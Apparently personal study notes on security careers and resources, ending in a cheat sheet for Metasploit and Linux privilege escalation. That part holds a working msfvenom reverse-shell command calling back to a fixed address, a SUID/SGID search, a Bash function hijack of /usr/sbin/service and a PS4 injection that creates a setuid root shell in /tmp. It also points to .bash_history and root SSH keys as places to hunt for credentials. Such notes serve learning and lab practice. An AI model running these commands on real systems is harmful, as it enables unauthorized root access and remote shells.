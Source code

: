 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

<hr class="sep-both">

## Privilege escalation

* SGID `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
* SUID - shared

Run strace on the file and search the output for open/access calls and for "no such file" errors:

strace xxx.so 2>&1 | grep -iE "open|access|no such file"

* we can see the trace of the program. We can look if the program tried to open files that we can write.
* .so (a c program compiled as shared)
* if you try to read a .so, you won't understand much aside some character that were not "changed". You can see these characters with `strings xxx.so`
* Can inject env variables: PATH=.:$PATH ./xxx.so

n Bash versions <4.2-048, possible create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved).

function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

Bash <4.4 enable debug, inject code in the PS4 env variable
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' _shared object that the user can run_

.bash_history
=> look for mysql, su, sudo...

ssh -i root_key (chmod 600)